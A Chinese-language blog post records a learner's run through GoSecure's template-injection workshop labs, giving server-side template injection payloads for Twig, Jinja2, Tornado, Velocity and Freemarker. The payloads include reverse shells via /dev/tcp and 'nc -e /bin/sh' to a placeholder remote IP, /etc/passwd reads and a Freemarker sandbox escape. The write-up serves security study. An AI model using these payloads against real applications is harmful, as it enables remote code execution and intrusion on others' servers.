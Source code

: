 ```yaml
---
layout: post
title:  Learning SSTI with gosecure
subtitle: Gosecure的SSTI环境学习记录
tags: [ssti,websec]
---
```


## 环境地址
gosecure 的ssti教程地址[template-injection-workshop](https://gosecure.github.io/template-injection-workshop/#0)

实际请去掉{\{ 和 {\% 中的\。


## LAB 1: Twig (PHP)
```
email={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("/bin/bash -c \"/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261\"")}}&submit=
```
原理可以参考[Twig SSTI](https://github.com/EdOverflow/bugbountywiki/wiki/SSTI)。  

问题：
直接bash -i /dev/tcp/ip/port 的时候，报错"/dev/tcp no such file or directory"，搜索发现是因为使用的是exec函数，不能直接处理重定向。参考[/dev/tcp](https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01)，使用`bash -c`可以成功。


## LAB 2: Jinja2 (Python)
```
name={\{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd','r').read()}}&org=1&phone=33&email=44
```
查找`subprocess.Popen`
```
{% for item in ''.__class__.__mro__[2].__subclasses__()%}
        {%- if item.__name__ == 'Popen' -%}
        {\{loop.index0}}{\{item}}
{%- endif -%}
    {% endfor %}
```

shell
```
{\{''.__class__.__mro__[2].__subclasses__()[245](["/bin/bash","-c","/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261"])}}
```

## LAB 3: Tornado (Python)

```
{\%import subprocess,socket,os%}{\{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)}}{\{s.connect(("your_remote_ip",port))}}{\{os.dup2(s.fileno(),0)}}{\{ os.dup2(s.fileno(),1)}}{\{ os.dup2(s.fileno(),2)}}{\{p=subprocess.call(["/bin/sh","-i"])}}
```

```
{\%import subprocess%} {\{subprocess.Popen(["nc","your_remote_ip","port","-e","/bin/sh"])}}
```

## LAB 4: Velocity (Java)
猜密码猜了半天没有猜对，最后还是去看了一下代码才找到密码。  
检测：
```
#set($x=7*7)$x
```
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('cat secret/flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('nc your_rermote_ip port -e /bin/sh '))$ex.waitFor()
```

## LAB 5: Freemarker (Java)
检测：
```
${7*7}
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat secret/flag.txt") }
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("nc your_remote_ip port -e /bin/sh  ") }
```

## LAB 6: Freemaker (Sandbox escape)
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("nc your_remote_ip port -e /bin/sh")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

## 总结
经过案例练习，了解了ssti的实际场景和检测方式。实际利用一方面是积累利用方式，另一方面需要了解语言特性才有可能找到gadget。  

感谢网络上各位的分享。

* [Template Injection in Action](https://gosecure.github.io/template-injection-workshop/)
* [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
